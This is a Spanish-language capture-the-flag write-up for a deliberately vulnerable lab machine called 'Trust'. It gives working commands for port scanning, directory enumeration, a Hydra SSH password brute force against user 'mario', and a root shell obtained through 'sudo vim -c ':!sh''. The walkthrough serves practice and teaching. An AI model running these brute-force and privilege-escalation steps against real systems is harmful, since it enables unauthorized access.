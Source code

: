 # 🔐 Máquina: Trust  
**Dificultad:** Muy Fácil  

## 📌 Descripción  
Trust está diseñada para practicar técnicas básicas de enumeración web, fuerza bruta por SSH y escalada de privilegios a través de la ejecución de binarios con permisos elevados.

---

## ⚙️ Despliegue de la Máquina  

Primero descargamos el archivo comprimido y lo descomprimimos con:

```bash
unzip trust.zip
```

Luego desplegamos la máquina con:

```bash
sudo bash auto_deploy.sh trust.tar
```

![Inicio del despliegue](/Trust/Imagenes/Inicio.jpeg)

---

## 📡 Verificación de Conectividad  

Verificamos que la máquina esté activa con un simple ping a su IP (172.18.0.2):

```bash
ping -c4 172.18.0.2
```

![Ping a la máquina](/Trust/Imagenes/Ping.jpeg)

---

## 🔎 Escaneo de Puertos con Nmap  

Ejecutamos un escaneo de todos los puertos para descubrir servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allPorts.txt
```

**Puertos detectados:**  
- **22/tcp** (SSH)  
- **80/tcp** (HTTP)

![Puertos abiertos](/Trust/Imagenes/Puertos.jpeg)

---

## 📂 Extracción de Puertos  

Usamos un script personalizado para extraer la IP y puertos abiertos desde el resultado anterior y realizar un escaneo más detallado:

```bash
nmap -sC -sV -p 22,80 172.18.0.2 -oN target.txt
```

**Opciones utilizadas:**
- `-sC`: Scripts por defecto de Nmap.
- `-sV`: Detección de versiones.
- `-p 22,80`: Puertos específicos detectados previamente.
- `-oN`: Salida en formato legible.

![Detección de servicios](/Trust/Imagenes/Servicios.jpeg)

---

## 🌐 Exploración del Servicio Web  

Visitamos la dirección web en el puerto 80 y encontramos la página por defecto de Apache:

![Página web por defecto](/Trust/Imagenes/Pagina.jpeg)

---

## 🗂️ Enumeración de Directorios con Gobuster  

Utilizamos **Gobuster** para buscar recursos ocultos en el servidor web:

```bash
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```

Con esta búsqueda encontramos una página `.php` interesante.

![Salida de Gobuster (vista desde BurpSuite)](/Trust/Imagenes/Burpsuite.jpeg)  
![Página descubierta](/Trust/Imagenes/Web.jpeg)

---

## 🧪 Ataque de Fuerza Bruta con Hydra  

Como el servicio SSH está activo, comenzamos pruebas para identificar credenciales válidas. Probamos con `root`, y luego con el nombre `Mario`, hasta que identificamos que el usuario correcto es `mario`.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![Ataque con Hydra](/Trust/Imagenes/Hydra.jpeg)

---

## ✅ Acceso por SSH  

Ingresamos al sistema con el usuario `mario` y la contraseña encontrada:

```bash
ssh mario@172.18.0.2
```

![Acceso SSH exitoso](/Trust/Imagenes/SSH.jpeg)

---

## ⬆️ Escalada de Privilegios  

Revisamos los permisos sudo del usuario `mario` con:

```bash
sudo -l
```

Se muestra que `mario` puede ejecutar `/usr/bin/vim` como **cualquier usuario**, incluyendo `root`.

Para obtener una shell como root desde `vim`, ejecutamos:

```bash
sudo /usr/bin/vim -c ':!sh'
```

Esto funciona porque `vim` se está ejecutando como root, y el comando `:!sh` invoca una shell con esos mismos privilegios.

![Escalada de privilegios con Vim](/Trust/Imagenes/Escalada.jpeg)

---

## 🧠 Conclusión  

La máquina **Trust** ofrece un excelente ejercicio introductorio para practicar:
- Despliegue y verificación de entornos Docker vulnerables.
- Enumeración de puertos y servicios con Nmap.
- Búsqueda de recursos web ocultos con Gobuster.
- Ataques de fuerza bruta con Hydra.
- Escalada de privilegios mediante binarios con permisos sudo.
